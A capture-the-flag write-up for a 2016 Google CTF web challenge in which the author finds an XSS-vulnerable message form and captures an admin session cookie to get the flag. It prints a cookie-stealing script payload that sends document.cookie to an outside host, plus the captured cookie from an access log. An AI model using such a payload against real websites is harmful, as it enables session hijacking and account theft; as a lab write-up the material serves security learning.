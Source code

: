 ### Solved by rasta_mouse

Wallowing Wallabies - Part One is a 25 point Web challenge.

We can get a list of interesting URLs from `https://wallowing-wallabies.ctfcompetition.com/robots.txt`

```
User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
# Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters
Disallow: /deep-blue-sea/team/paragraphs
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors
```

`/deep-blue-sea/team/vendors` has a page where we can submit a message, which is vulnerable to XSS.

![](/images/2016/google-ctf/wallowing-wallabies-part1/message.png)

If we submit a test message, the challenge gives us a clue about what we have to do:

```
Thank you, your request has been received
Your message to the admins is as follows:
!!! Expecting to find '<script src=' in your input -- please re-read the level challenge.
```

I used a fairly standard XSS vector to steal the admin's cookie:

```
<script src=x onerror=document.location='http://<redacted>?cookie='+document.cookie>
```

We then receive the following in the Apache access logs:

```
"GET /?cookie=green-mountains=eyJub25jZSI6IjkyNzQzYzg4MTllYTU1NzYiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjA0MzIyMX0=|1462043218|268ff31ba2799187278b167e1835ad653bef1f0b HTTP/1.1" 200 3417 "http://ctf-wallowing-wallabies.appspot.com/under-the-sea/application/31337" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/48.0.2564.97 Safari/537.36"
```

We can then take this cookie and use it to request `/deep-blue-sea/team/vendors` again.  This time, we're given the flag:

```
CTF{feeling_robbed_of_your_cookies}
```